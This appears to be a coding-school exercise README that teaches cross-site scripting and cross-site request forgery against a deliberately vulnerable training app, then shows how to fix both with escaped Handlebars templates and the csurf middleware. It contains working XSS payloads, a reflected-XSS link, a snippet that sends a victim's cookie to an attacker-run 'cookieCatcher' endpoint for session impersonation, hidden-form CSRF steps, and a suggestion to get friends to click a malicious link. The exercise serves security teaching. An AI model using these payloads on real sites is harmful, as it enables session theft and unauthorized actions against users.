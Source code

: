 # Pair Programming Exercise: Steal This App: Exercise 2

## Getting started

1. Create a user account on [http://steal-this-app-horizons.herokuapp.com/exercise2](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Login!

## Part 1: Insecure Messenger Cross-site Scripting (XSS)

Insecure messenger lets you send messages to other users on Steal This App.
Unfortunately, it is vulnerable to Cross-Site Scripting (XSS) attacks.

### a. Running JavaScript as someone else

The message body is not sanitized (i.e. escaped) before being rendered to the
page.
First we will exploit this vulnerability by making people send messages without
their knowledge.

1. Create a new user, we'll call this `User A`.
1. Send this message to `User A` from `User A`, refresh the page and check
   your console. You should see a message!

  ```html
  <script>
    console.log("I'm in your browser, running your JavaScripts");
  </script>
  ```

1. Make the `User A` send a message to via XSS. <br>
  Switch the `console.log()` statement with a `$.ajax()` call to
  make the same kind of `POST` request that the Send Message form
  on this page is making.

  ```html
  <script>
    $.ajax('/url of this page', {
      method: 'post',
      data: {
        // Form data goes here
      }
    })
  </script>
  ```
1. [Logout](https://steal-this-app-horizons.herokuapp.com/exercise2/logout)
  and create a new user, `User B`.
1. Send a specially crafted message from `User B` to `User A` and make sure
  that you can use the same attack across users.

### b. Drive by: running JavaScript as someone else

There's another thing that's vulnerable on this page: the `success` query
parameter.
This parameter is also not sanitized before being rendered to the page, so
we can run JavaScript with it to.

1. [Success messages under normal operation](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=YOUR%20MESSAGE%20HERE)
1. [Whoops this link runs JavaScript](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=%3Cscript%3Econsole.log%28'Another%20day%2C%20another%20XSS'%29%3C%2Fscript%3E)
1. Create a link that makes someone send a message to you when they open
it in their browser.
1. See if you can get your friends to click on it.

#### Putting JavaScript in URLs

You can generate JavaScript to put in URLs using the `encodeURIComponent()`
like this:

```javascript
encodeURIComponent('<script>YOUR SCRIPT HERE</script>')
```

### c. Stealing cookies

A website is only as secure as its cookies. If you can steal someone's cookie
you can impersonate them. This page is vulnerable because it prints out messages
received on the page without escaping (i.e. sanitizing) HTML.

We can run JavaScript on other users' pages by sending them messages with this
page containing the &lt;script&gt; tag. Cookies are accessible (by default) in
JavaScript via `document.cookie`. So if we craft the right script tag, we can
steal their cookie!

  ```html
  <script>
    console.log('I can see your cookies!', document.cookies);
  </script>
  ```

1. Clone the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app)
1. Start this app on your localhost and visit [http://localhost:3000/cookieCatcher](http://localhost:3000/cookieCatcher), you should see a message in your console

  ```
  !!!Cookie catcher!!!
  ```

1. We're going to use this endpoint to transmit the stolen cookie back to
  us. We can then use the cookie to impersonate the user.
1. Create a specially crafted message or a URL that creates an `img`
  tag and appends it to the body. We're going to store `document.cookie`
  inside the `src` attribute og this image.

  ```javascript
  var img = $('<img>');
  // Read and submit this cookie via the img tag
  img.attr('src', "http://localhost:3000/cookieCatcher?cookie="))
  $(document).append(img);
  ```
1. Note the value of the cookie in the command line. Use either
  the DevTools console or a Chrome Plugin to create the same cookie
  on Steal This App in an incognito window thereby impersonating the
  original owner of the cookie.

## Part 2: Fix XSS vulnerabilities

Clone the `steal-this-app` GitHub repo. The vulnerabilities are in
`steal-this-app/views/messenger.hbs`

Replace triple-brace Handlebars references with secure double-brace
Handlebars references.

After fixing attempt the XSS attacks you did earlier to verify they
no longer work!

This is secure:

```
{{secure}}
```

This is insecure:

```
{{{insecure}}}
```

## Part 3: Insecure Messenger Cross-site Request Forgery (CSRF)

Insecure Messenger is vulnerable to another type of attack called
Cross-site request forgery aka CSRF.

This type of attack does not involve running JavaScript in the target
site but instead relies on making requests on behalf of the user while
they are on a 3rd party site.

### a. Logout your enemies

In this exercise we're going to log someone out of a from Insecure Messenger
without their knowledge. We're going to do this using a hidden `img` that
will make a `GET` request to a destination of the attacker's choosing.

1. Log in to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Clone the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app)
1. Start the Attacker app and connect to [http://localhost:3000/](http://localhost:3000/) make sure it's running.
1. Create a new route `GET /csrfLogout` that renders a single `img` tag
  that points to the logout page:
  ![](img/csrf1.png)

1. Visit your new endpoint.
1. Go back to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2) Are you still logged in?

### (Bonus) b. Send POST request with CSRF

OK, we made someone log out without telling them. What's the big deal?
Well let's now take this to the next level by making a `POST`
request without their knowledge as well.

This time we're going to make them send message, just like we did earlier
but without relying on XSS.

We need a new page on the Attacker side that contains a hidden form.

We are going make this form talk to
`http://steal-this-app-horizons.herokuapp.com/exercise2/messenger`
by using the `action` attribute and use a `POST` request with the
`method` attribute. It should look like this:

![](img/csrf2.png)

Once you get your form working, you can pull up the inbox of the
user that you sent a message to and verify that your attack succeeded.

![](img/csrf3.png)

### (Bonus) Fix CSRF vulnerabilities

To fix CSRF we need to add a second layer of protection to endpoints
that perform actions i.e. `POST` endpoints.

We will use the NPM package `csurf` to accomplish this.

1. Add `csurf` to your `app.js`

  ```javascript
  var csrf = require('csurf')();
  app.use(csrf);
  ```

1. Now all your `GET` requests will contain a new property `req.csrfToken()`
  which you can render as a hidden form field.

  **Route**

  ```javascript
  app.use('/route', function(req, res) {
    res.render('template', {
      _csrf: req.csrfToken()
    });
  });
  ```

  **Template**

  ```html
  <form method="post">
    <input type="hidden" name="_csrf" value="{{csrfToken}}">
  </form>
  ```

1. `POST` requests without a valid token in the `_csrf` field will now be
  automatically rejected.

## Done!

Wow! You completed everything! That was amazing! 🔥🎉✅
